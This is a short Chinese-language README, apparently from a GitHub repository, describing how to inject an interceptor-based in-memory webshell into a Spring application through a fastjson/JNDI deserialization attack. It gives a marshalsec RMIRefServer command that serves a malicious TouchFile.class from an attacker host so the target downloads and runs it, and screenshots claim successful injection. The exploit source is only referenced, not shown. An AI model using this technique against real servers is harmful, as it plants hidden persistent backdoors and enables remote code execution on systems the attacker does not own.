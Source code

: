 # 利用intercetor注入Spring内存马

前置知识学习下面这篇文章就行

https://jishuin.proginn.com/p/763bfbd642b7

但是还是吐槽一句最终实现的时候居然是注入路由的那种，上不对下系列，代码放在了code文件夹

关于这个的注入要么是配合SPEL要么是配合fastjson与JNDI了

## 演示

首先在本地搭建SpringBoot环境，启动以后target目录下会有TouchFile.class，上传到marshalsec同目录下

命令行输入

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://xxx/marshalsec/target/#TouchFile" 1236
```

这里演示配合fastjson打的

![](img/1.png)

成功注入

![](img/2.png)
